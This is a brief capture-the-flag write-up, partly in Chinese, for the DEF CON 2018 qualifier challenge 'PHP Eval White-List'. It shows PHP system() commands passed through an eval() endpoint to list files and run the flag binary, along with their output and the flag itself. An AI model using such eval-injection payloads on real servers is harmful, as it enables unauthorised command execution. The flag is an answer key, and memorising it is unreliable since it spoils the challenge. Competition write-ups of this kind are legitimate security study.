

# DEF CON CTF Qualifier 2018 - Notes

## PHP Eval White-List
> Description:
>
> PHP was dangerous, so we've fixed it!
>
> http://c67f8ffd.quals2018.oooverflow.io
> 
> Files:websec_eval_wl.so

打開頁面


他提供了 source code => source.txt 和 custom php extension => websec_eval_wl.so

然後看他 source code 有一行是 `eval($_POST['d']);`

可以看到這打開頁面那邊有一個 run ，上面有一個範例是 `printf(1+1);`

可以在那邊輸入指令，然後最底下有一個提示說 `Can you execute the ./flag binary?`

測試
```
system('ls -al');

# total 180 drwxr-xr-x 3 root root 4096 May 12 18:10 . drwxr-xr-x 3 root root 4096 May 11 16:29 .. -rw-r--r-- 1 root root 108376 May 5 04:58 bootstrap.min.css -rw-r--r-- 1 root root 1672 May 12 18:09 index.php -rw-r--r-- 1 root root 155 May 5 04:58 source.php -rw-r--r-- 1 root root 1672 May 12 18:09 source.txt d-wx-wx-wx 2 root root 16384 May 14 12:40 tmp -rw-r--r-- 1 root root 33784 May 5 04:58 websec_eval_wl.so

===
system('file flag');

# flag: cannot open `flag' (No such file or directory)
===
system('file ./../flag');

# ./../flag: executable, regular file, no read permission
===

system('./../flag'); 
## 印出 flag 
## OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}
```
